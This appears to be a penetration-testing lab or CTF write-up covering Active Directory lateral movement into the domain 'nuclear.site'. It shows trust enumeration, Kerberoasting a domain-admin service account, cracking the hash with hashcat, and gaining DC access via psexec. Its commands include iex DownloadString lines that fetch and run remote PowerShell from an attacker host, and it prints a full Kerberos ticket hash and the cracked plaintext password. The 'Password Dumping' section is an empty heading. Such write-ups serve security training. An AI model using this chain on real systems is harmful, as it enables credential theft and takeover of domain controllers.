









# Lateral Movement 2

- [Lateral Movement 2](#lateral-movement-2)
  - [External Trust Enumeration](#external-trust-enumeration)
  - [Kerberoasting](#kerberoasting)
  - [Accessing Nuclear-DC](#accessing-nuclear-dc)
  - [Password Dumping](#password-dumping)

---

## External Trust Enumeration

To enumerate, first import `PowerView_dev.ps1`:

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.11/PowerView_dev.ps1"))
```

<br/>

Then map Domain Trust:

```
Get-NetDomainTrust
```

  

As shown, the current domain has a 2-way transitive external trust with the domain `nuclear.site`, which means we can abuse this to access `nuclear.site`.

<br/>

Also get the hostname of the external domain's DC:

```
nltest /dclist:nuclear.site
```
  

* The DC of `nuclear.site` is `nuclear-dc.nuclear.site`


<br/>

## Kerberoasting

To enumerate users with SPN set in the domain `nuclear.site`:

```
Get-NetUser -SPN -Domain nuclear.site
```

  

As shown, the user `iis_svc`, a domain admin, has a SPN `HTTP/nuclear-dc.nuclear.site`.

<br/>

First use `Invoke-Kerberoast.ps1` to get the krb5tgs hash:

```
iex ((New-Object Net.WebClient).DownloadString("http://192.168.100.11/Invoke-Kerberoast.ps1"))
Invoke-Kerberoast -Domain nuclear.site -OutputFormat Hashcat | Select-Object Hash | Out-File -filepath C:\Users\Public\hashcat.txt -Width 8000
```

  

  

```
$krb5tgs$23$*iis_svc$nuclear.site$HTTP/nuclear-dc.nuclear.site*$ABB0637E1A499656585BE02CE78CC050$A8D090286CE103508B6BDF1AD2DC391493CEC154FF944419006C247AC19365BA0EFBFA769D5B25393B7B28DE80FC4E59DF65771F199A826A932983F29FBF150662FE3A81F1875A02FB79977B519A878F469B7BFC819BD0565BD5444AF569E547A410755706FF820DF0285644B5912CA926EDE2104EDA716D735B7C2C3890C2E8D5458B3099DFF92588F9C3E478704F8BD0DAA74C55076BE36EFA0FAE64A23D241893A477544E788A0010BE3D6B97B1C05672B26B279FAD562FCF325774BD0DB697BCB1716BD03B07DCAA55319562FBED7CDB103651F5B887855561010D560736F54A3429D0FCC79D93C8B93C0BC00B56C619C62731AC3CE04468EC25E3EFE0EE947BC0CB6A1413078E52EB79013C40CF08D529E838D02959349CAF664579F5A72842590F9E48582C1C32EB19DB8D8E097C292757F2BA9CB9F737795AAA6643575DC197390092A06C0A91814DDECD9A0E21346396EC386C5C9715376E772DA974A809F1EC3A545D02EADB08385790723CC7E2FC8EBCFECEB68AD714DB0F34531387C766D1520693227FC935F834805B18AD92EAC54A4424F1739A340BF45803FF5B16C677AD9946AF96B14E8790D3333EE91ACE6A46AC448E012880C559B94DBF36896420C241289582A3DD8ABF8B598E49CA6B649E4A168A1C5AC271100DC2A0FEBF44842C89214613144F9AD8B237F989C4179066E8709430B1B9212A9EE2F9F950966BC4DE801F9EA53F14BAC902593CA75C7CAB18F78FF485746480BE900DFDEA05477987C099612823A6748D8B8A3F88374F717DBA399FD77DCBAABF803D61BAA15B4AB3C095ED7B008960338B26C9F6D6718113404F4855ACA46FA366E135E6AEF17C61D1F86D83AA67AD983FA2ED6868BF9CD80C9E23456252317087C57D32D982FE941AA6EE7F3C0F29CDB57C365D1C182348991DD44298009952E80DD435E2DE64624D0FA401C225BC40B48572674EB40281A42E7DA9FDA5EB5ACC65A7F0A69DD4CCE728D20A85EAB01A37612905695750B6798DC590EE50F9ED4E32D1CBA5A4F6E54AC74E427AC4A984861D3C184D61A8B88FA659E691D3B3B5C19C9E9EC54BBE6A0F4937B0B41ECC2B4962BD969FE14781B909B2B739552F2D34159283F96046222E72CF946E420BB85DFEDCEE67EA824517C893E5E31D85BC1968424869FBE0CE386EAF7730A0225D00198351DF1EAADA56E49F3E9FCD3CC717C8DD0E5BEED6E59E4AB47AFA47B17B94F540BD4EE0630534D431FE1641995C0F2D8C727A07F88BDAB899E790FECE929B23A60ADD1EAFAAD0BAB45A0EAB461247ECF3FEB6B9B1DC9B4B59FF1ABD2A55F554547D7688EA2847711F3185971A957BC93085168431D20E04DEF45C5187B9443D865FCE930AEB5FAA791CB5F7B8C653A02FACDF03E94BCDD8BC351309AE03C74D7777C4095F06B6DD0794397D2560DDB2DC68DB9A114B1163B640BF1C190358BD674893BC3FE47E1E5D99E603B8BDD48E0E77E069E9EDE51DB15E517B6F30770BAAFAF021250A5CCD46373B622A49409ED621C7DD16F30A0A620F78DD82EF9CCB942EC9
```

<br/>

Then try to crack it using hashcat (Windows):

```
hashcat.exe -m 13100 -a 0 .\ToBeCracked\cwf-advanced-iis.txt .\wordlists\rockyou.txt
```

  

  

The cracked password is:<br/>
`iis_svc` / `B@DB!tch`

<br/>

## Accessing Nuclear-DC

Getting the service account password (which is also a Domain Admin), we can use `psexec` to access from the attacker machine:

```
echo "nuclear-dc.nuclear.site 10.1.1.3" >> /etc/hosts
```

```
proxychains psexec.py -debug -dc-ip 10.1.1.3 iis_svc:'B@DB!tch'@nuclear-dc.nuclear.site 
```

  

  

As shown, we now have access to `nuclear-dc`.

<br/>

## Password Dumping

